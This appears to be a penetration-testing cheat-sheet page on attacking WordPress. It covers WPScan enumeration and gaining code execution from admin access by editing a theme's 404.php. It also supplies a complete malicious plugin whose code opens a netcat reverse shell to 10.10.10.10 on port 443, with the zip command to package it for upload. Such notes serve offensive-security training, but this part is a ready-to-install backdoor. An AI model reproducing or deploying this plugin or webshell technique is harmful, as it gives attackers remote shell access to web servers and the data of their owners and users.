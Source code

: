 ```yaml
---
description: Wordpress is maybe the most common CMS on internet.
---
```


# Wordpress

## WPScan

```text
wpscan --url http://example.com -e ap,at,cb,dbe,u1-5,m1-15 --api-token <APITOKEN>
```

## From Admin to RCE

### Theme Editor

We can modify a theme by adding a reverse shell or a webshell on the 404.php file.

### Installing Plugin

Another way to obtain a reverse shell is to upload and install a plugin. It is important to add the comment lines in order to a successful installation.

```text
<?php
    /*
    Plugin Name: HackinNotes Wordpress Shell
    Plugin URI: https://github.com/leonjza/wordpress-shell
    Description: Execute Commands as the webserver you are serving wordpress with! Shell will probably live at /wp-content/plugins/shell/shell.php. Commands can be given using the 'cmd' GET parameter. Eg: "http://192.168.0.1/wp-content/plugins/shell/shell.php?cmd=id", should provide you with output such as <code>uid=33(www-data) gid=verd33(www-data) groups=33(www-data)</code>
    Author: Leon Jacobs
    Version: 0.3
    Author URI: https://leonjza.github.io
    */

system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 443 >/tmp/f");?>
```

After that we just need to zip it and install.

```text
zip revshell-plugin.zip revshell-plugin.php
```



